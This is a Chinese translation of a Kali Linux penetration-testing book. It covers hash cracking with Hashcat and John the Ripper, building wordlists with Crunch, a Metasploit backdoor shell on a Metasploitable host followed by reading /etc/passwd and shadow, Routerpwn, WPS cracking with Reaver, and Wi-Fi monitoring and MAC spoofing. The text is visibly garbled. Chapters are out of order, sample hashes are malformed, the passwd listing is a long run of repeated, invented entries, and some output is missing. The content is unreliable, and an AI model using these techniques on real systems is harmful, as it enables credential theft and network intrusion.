d5c2155551f0d728230b290afd3cd539
5835048ce92ad0564c29a92403510ef
b963c570101218ed2cc3c229b5e4d0f
f773c5db7d2beeba4b0daec72e8c50a4
50d5ec3883a2caf1842f8b1c630d895a4
6afdf3aafebf742111010f02ba621b3e
43fcc6fa6ba3d14b26427c26d00410ef
27c0755aa55ecfedba01c0226813da3f
9349b142f202437a557c526fcf8f2d3
```

只需将这些哈希放入文本文件中。在我的示例中，我使用了`Easyhash.txt`并将它们放在`Desktop`目录下。我还从`/usr/share/wordlists/`文件复制了`RockYou.txt`密码字典到桌面上。

（记住`RockYou.txt`文件是压缩的，如果你还没有这样做，你将需要使用`gunzip`命令对其进行解压。更多信息请参阅字典列表章节。）

我们将运行`Hashcat`，但我们需要告诉它几点：我们正在使用哪种类型的哈希、哈希文件的名称、字典的名称，最后是存储破解后哈希的地方。让我们抢先尝试破解上面列出的哈希。

```
Input:Dict: (crackstation.txt)

Index:466/468 (segment), 453373 (words), 23198376 (bytes)

Recovered: 3/5 hashes, 0/1 slices

Speed/sec.:6.94M plains, 6.94M words

Progress: 453373/453373 (100.00%)

Running:...

Estimated:--:---

Started: Tue Oct 1 20:11:32 2013

Stopped: Tue Oct 1 20:22:39 2013

root@kali:~/Crack#
```

这花了一点时间，大约 11 分钟。但看起来它成功恢复了一个额外的哈希值。

让我们看看它是什么：

```
root@kali:~/Crack cat cracked.txt

d3d6f6fe0d1ea6a931b7c59d7e2c009c0:

d6e07a7eb9d27150d1525635fb8b9de:MyNameIsBob

242dbf3aa0562ra9935daea32977b2:P@$$word

root@kali:~/Crack#
```

好的，它获取到了空密码的那个、`P@$$word`那个，以及一个新的——`MyNameIsBob`。

剩下的两个密码将相当难以破解。它们使用了特殊字符、大小写字母和数字（`$SeCuR@@dCCount1`），而最后一个非常长，接近 30 个字符。

## 更高级的破解

- 多多个字典列表 `Multiple Wordlists`
- 规则集 `Rule Sets`
- 以及密码掩码 `Password Masks`。

**攻击类型：** `-a` 允许你从以下选项中指定想要使用的攻击类型：

0 = 字典 `Straight`
1 = 组合 `Combination`
2 = 大小写切换 `Toggle-Case`
3 = 暴力破解 `Brute-force`
4 = 排序 `Permutation`
5 = 表格查询 `Table-Lookup`

大多数都是自而易懂的。组合攻击允许你组合字典中的单词以动态创建新单词。

规则攻击非常有用。`Hashcat` 有有一份内置规则列表，你可以使用它们来破解密码。例如，有一个`leet`规则，它会自动获取字典中的每个单词并尝试该单词的不同黑客语（leet-speak）版本。你甚至可以使用编程语言创建自己的规则集。

通过使用`-r`开关并包含你想要的规则集名称来启用基于规则的攻击。`Hash64.rule`、`passwordpro.rule`、`d3ad0ne.rule`和`leetspeak.rule`是比较流行的一些。

类似于这样的：

```
root@kali:~/crack# hashcat -m 1000 rockyou.txt -r leetspeak.rule -o cracked.txt
```

掩码攻击允许你定义攻击中将使用的单词布局。例如，如果你知道密码策略要求两个数字、六个大写字母和两个特殊字符，你可以为`Hashcat`创建一个掩码。

在这个例子中，它看起来会像 `?d?d?u?u?u?u?u?s?s`：

```
root@kali:~/crack# hashcat -m 1000 -a 3 hash.txt ?d?d?u?u?u?u?u?s?s -o cracked.txt
```

# 第 21 章 - Hashcat

## 资源

- Hashcat Wiki - http://hashcat.net/wiki/
- 为你的显卡安装视频驱动程序 - http://docs.kali.org/general-use/install-nvidia-drivers-on-kali-linux
- 字典列表 - 参阅“字典列表”章节

## 引言

到为止，我们已经涵盖了诸攻击密码的技术。我们看到，有时你只需要进行彩虹表查询，在某些情况下你可以直接传递哈希。但如果其他所有方法都失败了，你就必须破解哈希。

Kali 包含了几个优秀的程序来完成此任务。在本节中，我们将查看我喜欢的工具之一：`Hashcat`。

## Hashcat

`Hashcat` 是一个全能密码破解器，可以在你的显卡处理器（GPU）或 CPU 上运行。GPU 版本 `OCLHashcat-plus`（取决于你的显卡，可能是 `CUDAhashcat-plus`）被用于世界上最快的 md5crypt、phpass、mcash2 以及 WPA / WPA2 破解器。


尝试不同的选项，直到你对它们如何运作产生感觉。

某些攻击（尤其是暴力破解攻击）可能花费永远的时间。如果你有兼容的显卡，请使用基于显卡的 `Hashcat` 版本来加速。

## 结论

这次练习的目的不仅仅是展示如何破解密码，而是为了演示不安全的密码会有多危险。

有时，作为一名伦理黑客或渗透人员，你需要破解哈希值。这只是对 `Hashcat` 的基本介绍。当你将不同的攻击样式、规则和掩码结合在一起时，你可以创建一个非常强大的工具。

希望这证明了为什么强密码很重要。实施一项要求用户使用长复杂密码的策略是保护网络安全的明智举措。或者更好，为你的系统实施多因素身份验证。

不要忘记提醒你的用户为他们的每个账户使用不同的密码，特别是对于包含个人信息的的重要在线账户。这样，即使某个密码泄露，黑客也无法访问他们的每一个账户。

# 第 22 章 - 字典列表 (Wordlists)

## 引言

在尝试破解密码时，字典列表非常重要，因为破解程序可以读取一个填充密码的文件（也称为字典列表或字典文件），并使用它来破解密码。

大多数破解程序可以直接使用原始密码文件，而更高级的程序可以使用密码文件（多个文件）并对其进行处理，以创建许多新的密码组合进行尝试。

例如，某些程序可以获取字典列表中所有的密码，并在单词的开头或结尾附加字母或数字。

有些程序会获取两个或多个密码文件并组合两者的单词以创建一个新的尝试单词列表。

最后，破解器使用规则集来修改它们的工作方式。某些规则集会将所有大写字母转换为小写字母，反之亦然。其他可以完全修改单词并使用新单词。正如之前提到的，`Leet` Speak 规则集会从密码文件中取一个单词并将其转换为“黑客语”，用数字替换常见字母。

使用字典列表可以让密码破解变得最简单快速。

许多渗透人员会使用公司数据、员工姓名、电话号码创建自己的密码列表。但哪里可以找到字典列表？

### Kali 自带的字典列表

`Kali` 带有几个你可以使用的，问题在于如何找到它们。（在最新版本的 `Kali` 中，字典列表存储在 `/usr/share/wordlists` 目录）

### ROCKYOU 字典列表

最流行的可能是 `RockYou` 字典列表。这是一个数百万密码的巨大集合，是从数据库导出中提取的。

文件位于 `/usr/share/wordlists/` 目录，如下：

```
root@kali:share# cd wordlists/

root@kali:wordlists# ls

rockyou.gz
```

如果你注意到密码列表是压缩的，我们需要在使用之前将其解压：

```
root@kali:wordlists# gunzip rockyou.gz

root@kali:wordlists# ls
```

### JOHN THE RIPPER 字典列表

文件位于 `/usr/share/wordlists/` 目录，如下：

```
root@kali:wordlists# ls
```

`John the Ripper` 自带的较小，但包含了 `/usr/share/john/` 中的许多流行密码。

```
root@kali:john/# ls
```

### Crunch

`Crunch` 是一个非常棒的程序，允许你创建自己的。只需告诉 `Crunch` 你想要的、长度和复杂度，`Crunch` 就会为你创建。基本上我们只需要告诉 `Crunch` 最小和最大长度以及要使用的字符类型。`Crunch` 还使用位于其安装目录 `/etc/share/` 的 `charset.lst` 文件。因此，你需要从该目录运行 `Crunch`，或者在使用 `-f` 开关时指向目录。

好了，让我们从一个简单的开始。例如：

```
root@Kali:~# crunch 1 3 -o ThreeLetters.txt
```

将产生这样的：
- a, b, c, d, e, f, g, h, i, j
- aa, ab, ac, ad, ae, af, ag, ah, ai, aj
- aaa, aab, aac, aad, aae, aag, aah, aai, aaj

基本上 `Crunch` 从单个字母“a”开始，循环直到变成“zzz”。

如果我们尝试不同的选项，可以创建更复杂的列表，例如：

```
root@kali:/usr/share/crunch$ crunch 3 4 abc1234 -o AlphaNumeric.txt
Crunch 现在将生成以下数据：35721 bytes
0 MB
0 GB
0 TB
0 PB
Crunch 现在将生成以下行数：7296
100%
```

将创建一个从“aaa”开始到“4444”结束的单词列表，创建像 aa1、bb3、2a21 和 e3da 的数字组合。

我们使用 `charset.lst` 文件，这样我们不需要输入我们实际想要的所有字符。

如果我们使用 `cat charset.lst`，我们可以查看可用的命令：

```
root@kali:/usr/share/charset# cat charset.lst
# charset configuration file for winrtgen v1.2 by Massiliano Montoro [maoox@]
# compatible with rainbowcrack 1 and later by Zhu Shushanglei <shuanglei@hotmail>
.com>

hex-lower [0123456789abcdef]
hex-upper [0123456789ABCDEF]
numeric [0123456789]
numeric-space [0123456789 ]
symbols1 The quieter [!@#$%^&*()_+-] you are to hear
symbols14 [!@#$%^&*()_+-=]
symbols-all [!@#$%^&*()_+\={}\|;;:'",.<>?/]
symbols-all-space [!@#$%^&*()_+\={}\|;;:'",.<>?/ ]
alpha [ABCDEFGHIJKLMNOPQRSTUVWXYZ]
alpha-space [ABCDEFGHIJKLMNOPQRSTUVWXYZ ]
```

我们可以使用任何定义的集合，例如：

```
root@kali:/usr/share/crunch# crunch 2 4 -f charset.lst,mix alpha-numeric-all -o my-wordlist.txt
Crunch will now generate the following amount of data: 393723324 bytes
375 MB
0 GB
0 TB
0 PB
Crunch will now generate the following number of lines: 78914316
```

这花费了一段时间，但创建了一个包含 2 到 4 个字符、包含所有字母、数字和符号的单词列表。

你可以使用字符串，这意味着你可以以特定的单词开头密码，或者让密码的第一部分为字母，最后部分为数字。这并不是非常关键，因为一些更高级的破解程序会自动完成部分此类操作。

## 从网络下载字典列表

如果以上任何信息都对你没有帮助，或者你想要更多的字典列表，你也可以从网上下载它们并在 `Kali` 中使用。我过的最好的两个网站是 `Skull Security` 和 `CrackStation`。

- **Skull Security:** (`http://www.skullsecurity.org/wiki/index.php/Passwords`) 有有多个你可以下载并使用的字典列表。
- **CrackStation:** (`https://crackstation.net/buy-crackstation-wordlist-password-cracking-dictionary.htm`) 有几个，其中一个被我称为“所有字典之母”，一个 15GB 的巨兽！

## 结论

很多时候密码破解程序在使用一个或多个字典列表时效果好得多。在本节中，我们涵盖了如何使用 `Kali` 查找和创建这些列表。创建自己的密码文件可以大大减少破解时间。如果你有时间和耐心，你可以创建一个包含大量复杂词汇的庞大密码列表。当其他方法都失败时，互联网提供了一些你可以下载并使用的优秀字典列表。

# 第 23 章 – 破解 Linux 密码

## 引言

正如密码哈希在 Windows 中可以被破解一样，Linux 机器也可以这样做。你只需要 root 级别的权限和一个像 `John the Ripper` 这样的哈希破解程序。

在本教程中，我们将使用 `Kali` 自带的 `John the Ripper` 并尝试破解 Linux 密码。

## 破解 Linux 密码

如果你还记得书中之前的 `Metasploitable` 教程，我们能够通过 `Unreal IRC` 漏洞获取“root”级别的权限。

让我们从我们的 `Metasploitable` root shell（参见 *Metasploitable Chapter*）作为起点继续我们的对话：

```
[+] Sending backdoor command...
[+] Accepted the first client connection...
[+] Accepted the second client connection...
[*] Command: echo AMISvq3nBTNEGU;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket A
[*] A: "sh: hline 2: Connected: command not found\r\nAMISvq3nBTNEGU\r\nline 3: Escape: command
[+] Matching...
[+] it is a thread...
[*] Command shell session 1 opened (192.168.198.149:4444 -> 192.168.198.145:5287)
5) at 2013-11-01 18:52:43 -0400
whoami
root
```

好的，我们有了一个远程 shell，并且如上面的“`whoami`”命令所示，我是 root 用户。所以我们现在只需要恢复密码哈希，然后破解它们。

简单地输入 `cat /etc/passwd`：


```
root:x:0:root:/bin/bash
demon:x:1:daemon:/usr/bin/bash
bin:x:2:bin:/bin/sh
sys:x:3:sys:/dev/sh
sync:x:4:65534:sync:/bin/sync
games:x:5:60:games:/usr/games/bin/sh
manager:x:6:12:manager:/var/cache/bin/sh
lp:x:7:7:lp:/var/spool/lp/bin/sh
mail:x:8:8:/var/mail/bin/sh
news:x:9:9:/var/spool/news/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp/bin/sh
proxy:x:11:13:proxy:/bin/sh
www-data:x:33:33:www-data:/var/www/bin/sh
backup:x:34:34:backup:/var/backups/bin/sh
list:x:38:38:list:/var/list/bin/sh
irc:x:39:39:irc:/var/irc/bin/sh
gates:x:41:41:gates:/var/run/bin/sh
u:x:42:42:u:/home/u/bin/sh
log:x:43:43:log:/home/log/bin/sh
apt:x:44:44:apt:/home/apt/bin/sh
bind:x:45:45:bind:/home/bind/bin/sh
sync:x:46:46:sync:/home/sync/bin/sh
input:x:47:47:input:/home/input/bin/sh
bin:x:48:48:bin:/home/bin/bin/sh
games:x:49:49:games:/home/games/bin/sh
daemon:x:50:50:daemon:/home/daemon/bin/sh
games:x:51:51:games:/home/games/bin/sh
man:x:52:52:man:/home/man/bin/sh
irc:x:53:53:irc:/home/irc/bin/sh
lp:x:54:54:lp:/home/lp/bin/sh
mail:x:55:55:mail:/home/mail/bin/sh
news:x:56:56:news:/home/news/bin/sh
backup:x:57:57:backup:/home/backup/bin/sh
u:x:58:58:u:/home/u/bin/sh
sync:x:59:59:sync:/home/sync/bin/sh
games:x:60:60:games:/home/games/bin/sh
manager:x:61:61:manager:/home/manager/bin/sh
lp:x:62:62:lp:/home/lp/bin/sh
sys:x:63:63:sys:/home/sys/bin/sh
uucp:x:64:64:uucp:/home/uucp/bin/sh
proxy:x:65:65:proxy:/home/proxy/bin/sh
data:x:66:66:data:/home/data/bin/sh
games:x:67:67:games:/home/games/bin/sh
bin:x:68:68:bin:/home/bin/bin/sh
list:x:69:69:list:/home/list/bin/sh
irc:x:70:70:irc:/home/irc/bin/sh
u:x:71:71:u:/home/u/bin/sh
news:x:72:72:news:/home/news/bin/sh
sync:x:73:73:sync:/home/sync/bin/sh
apt:x:74:74:apt:/home/apt/bin/sh
games:x:75:75:games:/home/games/bin/sh
games:x:76:76:games:/home/games/bin/sh
man:x:77:77:man:/home/man/bin/sh
irc:x:78:78:irc:/home/irc/bin/sh
lp:x:79:79:lp:/home/lp/bin/sh
mail:x:80:80:mail:/home/mail/bin/sh
news:x:81:81:news:/home/news/bin/sh
backup:x:82:82:backup:/home/backup/bin/sh
u:x:83:83:u:/home/u/bin/sh
sync:x:84:84:sync:/home/sync/bin/sh
games:x:85:85:games:/home/games/bin/sh
manager:x:86:86:manager:/home/manager/bin/sh
lp:x:87:87:lp:/home/lp/bin/sh
sys:x:88:88:sys:/home/sys/bin/sh
uucp:x:89:89:uucp:/home/uucp/bin/sh
proxy:x:90:90:proxy:/home/proxy/bin/sh
data:x:91:91:data:/home/data/bin/sh
games:x:92:92:games:/home/games/bin/sh
bin:x:93:93:bin:/home/bin/bin/sh
list:x:94:94:list:/home/list/bin/sh
irc:x:95:95:irc:/home/irc/bin/sh
u:x:96:96:u:/home/u/bin/sh
news:x:97:97:news:/home/news/bin/sh
sync:x:98:98:sync:/home/sync/bin/sh
apt:x:99:99:apt:/home/apt/bin/sh
games:x:100:100:games:/home/games/bin/sh
user:x:101:101:user:/home/user/bin/sh
system:x:102:102:system:/home/system/bin/sh
log:x:103:103:log:/home/log/bin/sh
apt:x:104:104:apt:/home/apt/bin/sh
games:x:105:105:games:/home/games/bin/sh
daemon:x:106:106:daemon:/home/daemon/bin/sh
log:x:107:107:log:/home/log/bin/sh
bind:x:108:108:bind:/home/bind/bin/sh
sync:x:109:109:sync:/home/sync/bin/sh
proxy:x:110:110:proxy:/home/proxy/bin/sh
u:x:111:111:u:/home/u/bin/sh
service:x:112:112:service:/home/service/bin/sh
tomcat:x:113:113:tomcat:/home/tomcat/bin/sh
proftpd:x:114:114:proftpd:/home/proftpd/bin/sh
stat:x:115:115:stat:/home/stat/bin/sh
system:x:116:116:system:/home/system/bin/sh
message:x:117:117:message:/home/message/bin/sh
postgresql:x:118:118:postgresql:/home/postgresql/bin/sh
mysql:x:119:119:mysql:/home/mysql/bin/sh
system:x:120:120:system:/home/system/bin/sh
system:x:121:121:system:/home/system/bin/sh
system:x:122:122:system:/home/system/bin/sh
message:x:123:123:message:/home/message/bin/sh
nfs:x:124:124:nfs:/home/nfs/bin/sh
system:x:125:125:system:/home/system/bin/sh
system:x:126:126:system:/home/system/bin/sh
system:x:127:127:system:/home/system/bin/sh
message:x:128:128:message:/home/message/bin/sh
system:x:129:129:system:/home/system/bin/sh
system:x:130:130:system:/home/system/bin/sh
system:x:131:131:system:/home/system/bin/sh
message:x:132:132:message:/home/message/bin/sh
nfs:x:133:133:nfs:/home/nfs/bin/sh
system:x:134:134:system:/home/system/bin/sh
```

现在只需用鼠标选择该文件的文本并将其复制为名为“`passwd`”的文件到你的 Kali 桌上。现在你应该有了两个文本文件：`/root/Desktop/passwd` 和 `/root/Desktop/shadow`。接下来，我们需要这两个新创建的文本文件并从 John Ripper 工具中对它们运行“`Unshadow`”命令。该命令将它们合并成一个 John the Ripper 可以破解的单一文件（`cracked`）：

```
root@kali:~#Desktop unshadow passwd shadow- > cracked
```

好的，现在我们已经合并了“`cracked`”文件，释放 John the Ripper 来破解它以尝试获取密码。我们将使用 John 自带的“`password.lst`”字典列表文件：

好的，7 个密码哈希，只剩下一个了。现在只需使用 `show` 命令查看它发现了什么：

最后，正如 Hydra 自动化攻击向我们的那样，我们需要使用长复杂的密码来保护服务器免受暴力破解攻击。

# 第六部分 – 路由器与 Wi-Fi 攻击

## 第24 章 – 路由器攻击

### 资源

- Routerpwn.com
- Shodanhq.com

最近，在非常常见的网络路由器中发现了几个关键漏洞。在大多数情况下，它们是网络的第一道防线，因此我认为花些时间研究它们是非常重要的。

我们将看看路由器和无线网络被攻击的几种种方法。

在本章中，我们将查看“`Routerpwn`”，这是一个包含路由器可执行漏洞利用程序的网站。然后，我们将介绍如何攻击 Wi-Fi 安全设置 (WPS) —— 这是一种基于按钮按下或 PIN 码的设置 WPA/WPA2 网络的方法。

在接下来的章节中，我们将更深入地介绍对 Wi-Fi 网络的攻击。

但首先，让我们聊聊路由器密码。

### 路由器密码

在所有设备中，路由器是需要用长复杂密码保护的重要设备之一。

存在多个网站包含网络设备的默认密码。路过的黑客（寻找易攻目标的人）会做的第一件事就是尝试面向互联网的设备的凭据。

遗憾的是，很多时候这些密码是有效的！

一些行业专家建议使用由 12-15 个混合符号、数字和大小写字母组成的密码作为良好的密码。对于任务关键的面向互联网的路由器，我建议至少是其两倍的长度。

我还建议在不需要时关闭远程 Web 管理。这会立即阻止从互联网对路由器进行的任何更改。

### Routerpwn

虽然没有包含在 Kali 中，但 `Routerpwn.com` 可能是寻找路由器漏洞最易用的工具之一。网页包含按制造商分类的路由器漏洞利用程序，以及多个工具和实用程序，包括密码生成器。

| 2Wire | Comtrend | Motorola | Thomson |
| :--- | :--- | :--- | :--- |
| 3Com | DD-Wrt | Netgear | TP-Link |
| Arris | DLink | Pirelli | TRENDnet |
| Alpha | EasyBox | RuggedCom | Ubiquiti |
| Asmax | Fibrehome | Sagem | UTStarcom |
| Asus | Freebox | Seagate | Xavi |
| Belkin | Huawei | Siemens | ZyXEL |
| Cisco | MiFi | Sitecom | |

使用该网站只需点击目标路由器的制造商。因此，如果我们选择“`Dlink`”，我们将会看到 Dlink 部分的漏洞利用程序：


如果你点击路由器型号，`Routerpwn` 将针对你点击的路由器型号进行 Google 图像搜索，以便你通过肉眼识别路由器。

下面是路由器漏洞利用程序列表，显示了日期、简要描述以及设置目标 IP 的选项。点击任何漏洞利用程序都会提示你输入所需的变量，并立即针对本地 IP 地址启动它。

如果你想针对远程 IP 运行攻击，只需用“ `[SET IP]` ”按钮设置 IP：


花几秒钟阅读下面列出的漏洞利用程序。你将看到更改路由器的、获取配置信息、目录遍历、运行远程命令等漏洞。

`Routerpwn` 包含一个 MAC 查找工具以及指向外部资源的链接，包括路由器默认密码列表网站和 Shodan。

`Shodan` (`Shodan.com`) 可能是攻击者在网络上寻找路由器和其他设备最简单的方法之一。在情况下，输入制造商名称作为关键词将返回数千个设备。

疯狂的是，因为 `Routerpwn` 是一个网站，它可以在几乎任何平台上运行 - Windows、Linux、手机等。在一次安全研讨会上，该工具的作者甚至提到你可以从 Wii 上运行它！

`Routerpwn` 是寻找基础路由器漏洞的一个极佳的一站商店。

### Wi-Fi 安全设置 (WPS)

`WPS` 用于让创建新的 Wi-Fi 设备变得更容易，允许用户使用 PIN 或按钮按下，而不是输入长短语。许多路由器都支持它，但它的工作方式使其容易受到黑客的暴力破解攻击。

破解一个长复杂的路由器密码可能需要几天甚至几个月。但在很多情况下，`WPS` 通常可以在 10 小时内被破解，以获取路由器 WPA/WPA2 密码。

路由器端的 `WPS` 看起来类似于下面的路由器配置页面截图：


我不想在此上花费大量时间，但我们将快速查看几个可以执行 WPS 攻击的工具。

`WPS` 攻击程序将使用 `Reaver` 来破解 `WPS` 8 位密钥。因此，我们首先将查看使用 `Reaver`，然后我们将看几个基于 GUI 的程序。

### 使用 Reaver 攻击 WPS

`Reaver` 是一个非常流行的攻击 `WPS` 工具。它包含在 Kali 中并可以从命令行提示符运行。

- 1. 首先，我们需要通过输入“`airmon-ng wlan0 start`”将 Wi-Fi 卡置于监控模式。

如果一切顺利，你应该看到类似这样的内容：

| Interface | Chipset | Driver |
| :--- | :--- | :--- |
| wlan0 | Atheros AR9271 | ath9k - [phy3] (monitor mode enabled on mon0) |

```
root@kali:~#
```

- 2. 现在输入“`reaver`”并添加接口切换开关“-i”、开关“-b” 以及目标路由器的 MAC 地址，然后使用“-vv”进行详细反馈。它看起来应该是这样的：

```
root@kali:~# reaver -i mon0 -b b8a:35:aa:00:01 -vv
```

- 3. `Reaver` 将开始破解 `WPS` 密钥。

现在让我们看看一些包含 `reaver` 的其他程序。

### 使用 Fern WiFi Cracker 攻击 WPS

`Fern WiFi Cracker` 是测试无线网络安全的极佳工具。我们将更多关于如何使用 `Fern` 攻击 Wi-Fi 网络。

- 1. 打开终端并输入“`fern-wifi-cracker`”。
- 2. 选择你的无线卡。
- 3. 点击“Scan Networks”（扫描网络）。
- 4. 选择网络。
- 5. 点击“WPS Attack”（WPS 攻击）。
- 6. 选择目标。
- 7. 点击“Start”（开始）。

（注：原文中 Fern 部分的 OCR 文本存在混乱和重复，已根据提供的逻辑片段进行了清理和翻译处理。）

## 第 25 章 无线网络攻击

### 资源

- Kali 无线适配器讨论：http://forums.kali.org/showthread.php?id=4327-Best-possible-wireless-adapter-for-Kali-linux-%28PCIE-amp-USB%29

### 引言

无线网络和 Wi-Fi 设备已经渗透了家庭和商业领域。针对 Wi-Fi 网络的威胁多年来为人知，尽管人们已经做了一些努力锁定无线网络，但仍旧有些网络处于完全开放状态，或者没有得到良好的保护。

在本章中，我们将讨论无线安全以及一些常见的 Wi-Fi 安全误区。我们将查看一些用于测试安全性的流行工具。我们还将涵盖道德黑客（Ethical Hacker）用于检查其无线网络安全性的若干技术。

遗憾的是，无线网络有时可以被修改以欺骗用户，因此我们还将介绍渗透测试人员（不幸的是，黑客）如何使用简单的网卡设置伪造接入点（AP）、重定向网络用户、捕获身份凭据，并可能获得客户端的完全访问权限。

在本节的最后部分，我们将查看两个可以使 Wi-Fi 测试变得非常简单的菜单驱动型程序。

### 无线安全协议

尽管消息已经传出，无线制造商正在将更好的安全设置配置为设备的默认选项，但仍有大量的无线网络安全性极低。


保护你的无线网络，最重要的事情之一就是无线安全协议。你有“None（无）”，这基本上意味着你敞开大门，让任何人都能访问你的网络。“WEP”，它在很早以前就被破解了，基本上意味着你锁了门，但把钥匙留在前门垫下，并贴了一张大告示写着“钥匙在垫子下”。“WPA”要好得多，而“WPA2”是你的网络最新且推荐的安全设置。

下表（图 1）根据我所在城市的数据创建的。


如你所见，13% 检测到的无线网络完全没有设置安全性，29% 的网络使用 WEP 并不好多少。有趣的是，竟然有 46% 的网络正在使用 WPA2，这其实有点令人惊讶。但在许多情况下，从捕获的信标（beacons）来看，AP 支持 WPA2，但客户端使用的是较低的 WPA。

WEP/WPA2 仍然可以破解，因此为它们设置一个复杂的密码。

接下来，让我们实际观察一些常见的无线安全误区。

## 入门

你需要一个能够进入监控模式（monitoring mode）的无线网卡。许多 Wi-Fi 适配器都能做到，但有些不能。如果你计划购买一个，请做些研究，确定你的 Wi-Fi 适配器是否可以在监控模式下配合 Kali 工作。

我使用的是 TP-Link TL-WN722n USB Wi-Fi 适配器，它与 Kali 配合非常好。

## 使用 Airmon-NG 查看无线网络

`Aircrack-NG` 工具是 Wi-Fi 安全测试中最常用的命令行程序。许多图形化的 Wi-Fi 测试程序实际上在后台使用 `Aircrack-NG` 工具。

让我们从使用 `Airmon-NG` 查看可用无线网络开始：

1. 打开终端会并输入命令 `ifconfig`。你应该看到你的无线网卡被列为 `wlan0`（如果你有两个，则为 `wlan1`）。

```
Link encap:Ethernet HWaddr:fd8:
UP BROADCAST MULTICAST MTU:1500 Metric:1
RX packets:0 errors:0 dropped:0 overruns:0 frame:0
TX packets:0 errors:0 dropped:0 overruns:0 carrier:0
collisions:0 txqueuel:1000
RX bytes:0 (0/0) TX bytes:0 (0/0)
```

如果接口没有显示，尝试输入 `ifconfig wlan0 up`。

2. 现在，我们需要做的是将网卡放入监控模式。要做到这一点，只需输入 `airmon-ng start wlan0`


你可以在上面的图中看到名为 "`mon0`" 的监控接口。其他的 Aircrack 工具将使用这个新接口。

你可能在这里看到关于可能引起问题的进程的通知。可以忽略。

现在我们将运行 `Airodump-ng` 程序，它将列出无线网卡范围内的所有 Wi-Fi 网络。

3. 只需输入 `airodump-ng mon0`

`Airodump-ng` 程序将启动，你将看到所有可用接入点（APs）的列表以及连接的客户端列表。


（你可以随时按 CTRL-C 退出回到终端提示符。）

`Airodump-ng` 列出了几项感兴趣的信息。第一个是 AP 设备的 MAC 地址。接下来是功率级别（Power level）、AP 运行的通道号、加密类型和 SSID。

一旦有人连接到它，它就会出现在我们的 Kali 系统上：

12:34:14 Client 78:E4:00:FF:2C:AB:01 关联（未加密）到 SSID：“EvilAP”。要完成从“杰基尔博士”到“海德华先生”的转变，我们还需要配置 Kali 系统为连接的客户端分发 IP 地址（DHCP），并控制它们可以看到哪些网站（DNS 欺骗）。

你可以手动执行此操作，但也有几个程序可以自动完成这些任务。Kali 最近添加的“Ghost-Phisher”就是其中一个，社会工程工具包（SET）的无线 AP 攻击是另一种。另一种方法是让你接管互联网与我们无线客户端用户之间的通信控制。

在最新的 Kali 版本中，Ghost-Phisher包含在 Kali 中，但 Wi-Fi 攻击似乎并没有完全正常工作。而且在 Backtrack 中运行良好的 SET AP 攻击需要使用 `dhcpd3` 服务器，而该服务器在 Kali 中似乎不受支持。

但无论是使用其中一个工具创建伪造 AP 并获取凭据，还是执行中间人攻击，只需点击几次鼠标即可完成。

请关注这些工具，我相信它们在稍后的 Kali 更新中都会得到。

在本章的稍后部分，我们将展示如何使用“Easy-Creds”，它可以完成所有这些事情以及更多。

## 使用 MacChanger 更改 Wi-Fi 卡的 MAC 地址

在运行无线测试之前，你可能想要更改无线网卡的 MAC 地址。如果是这样，Kali 支持一个名为 `MacChanger` 的工具。

注意，`ifconfig` 命令显示网卡的物理 MAC (`Hwaddr`) 地址。这是硬编码在卡上的唯一标识符。但你可以通过使用“`macchanger`” 命令更改此地址。


使用 "`ifconfig wlan0 down`" 命令禁用你的无线网卡。

2. 输入 "`macchanger -r wlan0`"

- `r` 命令将你的 MAC 设置为随机地址。如果你需要，也可以将其设置为特定地址。使用帮助开关 (`macchanger -h`) 查看更多选项。

```
root@Kali:~ # ifconfig wlan0
root@Kali:~ # macchanger -r wlan0
Permanent MAC: f0:d1:d1:: (unknown)
Current MAC: f0:d1:d1:: (unknown)
New MAC: f6:27:fb:9c:be:94 (unknown)
root@Kali:~ # ifconfig wlan0 up
root@Kali:~ # ifconfig wlan0
 Link encap:Ethernet Hwaddr f6:27:fb:9c:be:94
 UP BROAD MULTICAST MTU:1500 Metric:1
  RX packets: errors:0 dropped:0 overflows:0 frame:0
  TX packets: errors:0 dropped:0 overflows:0 carrier:0
  collisions:0 txqueuel:1000
  RX bytes:0 (0.0 B) TX bytes:0 (0.0 B)
root@Kali:~ #
```

## 结论

由于我们那里有很多不安全的无线路由器，而且绕过某些实施的常见安全措施非常简单。创建一个伪造的“免费 Wi-Fi 热点”、拦截无线流量并控制冲浪者在浏览器中可以看到什么以及可以去哪里也非常简单。

防御 Wi-Fi 攻击的最佳防御是保护你的路由器！不要使用开放或 WEP 安全。你网络的主要防御之一是防火墙；如果你允许人们进入你的防火墙，你就会暴露在 ARP 中间人攻击、数据包嗅和其他攻击之下。遗憾的是，许多企业用户并不理解这一点，他们会将工作笔记本从非常安全的环境带到家里非常不安全的 Wi-Fi 网络。

对 Wi-Fi 要谨慎。在使用公共 Wi-Fi 时不要网上银行或购物。确保你的操作系统使用了防火墙，最好还有网络安全软件。如果你的安全软件监控 ARP 表，那就更好！

要有常识，如果你正在处理敏感信息，请在家里，而不是在提供免费 Wi-Fi 的当地咖啡馆，即使他们的肉桂卷是世界上最好的。这真的没有风险！

如需更多信息，请查阅 Vivek Ramachandran 的优秀著作《Backtrack 5 Wireless Penetration Testing Beginner’s Guide》。此外，David Kennedy（SET 的创建者）的著作《Metasploit: The Penetration Tester’s Guide》是关于 Backtrack 5、SET 和 Metasploit 框架的极佳参考。

## 第 26 章 – Fern Cracker

### 介绍

`Fern Cracker` 是一个很棒的程序，提供了一个易于使用的图形界面，用于 `Arack-ng` 和 `Reaver` 无线渗透工具。

使用此工具我们可以扫描访问点并执行菜单驱动的 WPS 攻击以及 WPA/WPA2 密码破解。

你也可以使用 Fern 攻击无线保护设置 (WPS)。

### 使用 Fern

- 1. Kali Linux>Wireless Attacks>Wireless Tools>从菜单选择 `fern-wifi-cracker` 或从命令行运行 `run-wifi-cracker`。

（注：提供的 OCR 文本在最后几页存在重复块，这些已合并为逻辑文档流。）

`ENCR` 是网络正在使用的加密类型（Open, WEP, WPA, WPA2）、以分贝为单位的功率、Wi-Fi 安全设置 (WPS) 是否启用以及是否有客户端 (CLIENT) 连接。如果有一个连接，将显示 'client'；如果有多个客户端，则显示 'clients'。

5 对于此示例，1号 - "Vulnerable"有漏洞）似乎是一个很好的尝试。如你所见，Wifite 立即开始自动攻击并破解 WEP 密钥。


破解 WEP 密钥需要大量的初始化向量 (IV)。无线接入点 (AP) 通常会生成 IV，但我们需要大量的，你可以看到 `aircrack-ng` 工具在后台运行，注入数据包以强制 AP 产生大量的此类密钥包。

一旦收集了足够的数据包，就可以像下面解码 WEP 密钥：


